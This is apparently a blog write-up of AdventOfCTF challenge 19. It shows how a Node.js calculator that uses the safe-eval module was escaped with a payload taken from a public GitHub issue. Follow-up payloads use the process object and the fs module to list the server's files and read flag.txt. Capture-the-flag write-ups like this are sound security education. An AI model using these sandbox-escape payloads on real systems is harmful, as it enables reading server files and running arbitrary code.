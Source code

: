 +++
author = "Maik de Kruif"
title = "Challenge 19"
subtitle = "Challenge 19 - AdventOfCTF"
date = 2021-02-25T23:18:28+01:00
description = "A writeup for challenge 19 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/d80f13d1ab714f7864c2a9ef56c5f767.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "javascipt",
    "nodejs",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 1900

## Description

We found out that it was possible to insert Javascript code in the calculator. Oops! We found an awesome module to prevent against this abuse. Hopefully it is all better now. The flag is in flag.txt.

Visit <https://19.adventofctf.com> to start the challenge.

## Recon

Upon opening the challenge website, we're greeted with an input field which asks us to "enter the nr of days until christmas".

When opening the source of the page we also find some javascript code:

```js
function send() {
  let calc = $("#calc")[0].value;
  if (calc.length > 0) {
    $.ajax({
      url: "/calc",
      type: "POST",
      data: '{"calc": "' + calc + '" }',
      contentType: "application/json; charset=utf-8",
      dataType: "json",
    }).always(function (data) {
      text = data;
      if (data.responseText) {
        text = data.responseText;
      }
      $("#msg")[0].innerHTML = "<b>" + text + "</b>";
    });
  }
}
```

As the description tells us it's a calculator, let's try entering `3+4` in the input field. It will make a `POST` request to `/calc`, which will return `7`.

The description also states it was possible to enter javascript code, which we saw in the [previous challenge]({{% ref "writeups/adventofctf/2020/challenge_18.md" %}}), but that it has been fixed now.

## Finding the vulnerability

To verify what the description says, let's try to enter `res` in the input field. Sadly, it looks like it actually has been fixed as we now get the following error:

```text
evalmachine.<anonymous>:11
  SAFE_EVAL_521493=res
  ^

ReferenceError: res is not defined
    at evalmachine.<anonymous>:11:3
    at Script.runInContext (vm.js:133:20)
    at Script.runInNewContext (vm.js:139:17)
    at Object.runInNewContext (vm.js:322:38)
    at safeEval (/opt/app/node_modules/safe-eval/index.js:24:6)
    at /opt/app/server.js:13:11
    at Layer.handle [as handle_request] (/opt/app/node_modules/express/lib/router/layer.js:95:5)
    at next (/opt/app/node_modules/express/lib/router/route.js:137:13)
    at /opt/app/node_modules/body-parser/lib/read.js:130:5
    at invokeCallback (/opt/app/node_modules/raw-body/index.js:224:16)
```

When looking at this output, we can see that it uses the `safe-eval` module to evaluate the input.

I personally don't know this module so let's Google around a bit. Eventually, I found [this Github Issue](https://github.com/hacksparrow/safe-eval/issues/16#issuecomment-554301596) which talks about safe-eval not being so safe. Exactly what we need.

When scrolling down on the issue, we can see a comment with the following code:

```text
(
delete(this.constructor.constructor),delete(this.constructor),
this.constructor.constructor("return process")()
)
```

_Note: Sorry this code is not highlighted. If I do so, my formatter will mess it up..._

The comment has no further text in it so let's try entering the code. Don't forget to replace the double quotes (`"`) with single ones (`'`) though as, otherwise, the JSON will no longer be valid.

After making the request, the server returns the following string: `[object process]`. This means the code worked, and we can build an exploit on it.

## Exploit

Because we now have the `process` object, we can use it to require modules and execute code.

To read the directory contents of the sever, we can use the following code:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readdirSync('.');
})();
```

_Note: Again, not formatted as my formatter will replace the single quotes with double ones._

In this code, I used the `process` to get the `require` function. I did this so I could get access to the `fs` module to read the directory contents. This, in turn, is all wrapped by a [self-executing anonymous function](https://developer.mozilla.org/en-US/docs/Glossary/Self-Executing_Anonymous_Function) so I could use variables to make it easier.

The above code returns the following output:

```text
flag.txt,node_modules,package-lock.json,package.json,public,server.js
```

Here we see the `flag.txt` file. Now let's read it using the `fs` module again:

```text
(() => {
  const process =
    (delete this.constructor.constructor,
    delete this.constructor,
    this.constructor.constructor('return process')());
  const require = process.mainModule.require;
  const fs = require('fs');
  return fs.readFileSync('flag.txt');
})();
```

## Solution

We got the flag! It is `NOVI{s@fe_eval_is_not_so_saf3}`.
